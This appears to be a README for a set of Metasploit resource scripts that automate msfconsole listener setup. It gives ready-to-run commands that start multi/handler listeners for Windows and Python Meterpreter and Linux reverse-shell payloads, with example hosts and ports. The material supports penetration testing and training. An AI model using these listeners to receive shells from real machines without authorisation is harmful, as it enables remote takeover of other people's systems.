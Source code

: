# Resource Scripts (.rc)

This directory contains Metasploit Resource Scripts (`.rc` files) designed to automate repetitive tasks within `msfconsole`.

## 1. Simple Listener (`multi_handler_listener.rc`)

This script is for quickly starting a generic listener with a default configuration. It's best for scenarios where you commonly use a Windows Meterpreter payload.

**Content:**

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit -j


**How to Use:**
Run directly from your terminal. `msfconsole` will start and immediately execute the script.
```bash
msfconsole -r resource_scripts/multi_handler_listener.rc
```

## 2. Flexible Listener (flexible_listener.rc)
This is a more advanced, reusable script that starts a listener using variables you provide from the command line. The script itself does not contain any hardcoded payload, host, or port, making it truly flexible.

**Content:**

use exploit/multi/handler
exploit -j
jobs
How to Use:
The key is to use the -x flag with msfconsole to pass commands that set the PAYLOAD, LHOST, and LPORT variables before the resource command loads the script.

Example 1: Starting a Windows x64 Meterpreter Listener
```bash
msfconsole -x "set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4444; resource resource_scripts/flexible_listener.rc"
```
Example 2: Starting a Linux Shell Listener on a different port
```bash
msfconsole -x "set PAYLOAD linux/x64/shell_reverse_tcp; set LHOST eth0; set LPORT 8080; resource resource_scripts/flexible_listener.rc"
```
Example 3: Starting a Python Meterpreter Listener
```bash
msfconsole -x "set PAYLOAD python/meterpreter_reverse_http; set LHOST 10.10.10.1; set LPORT 80; resource resource_scripts/flexible_listener.rc"
By using this flexible script, you avoid creating dozens of different .rc files for each payload you might need.
```
[<-- Back to Main README](../../README.md)
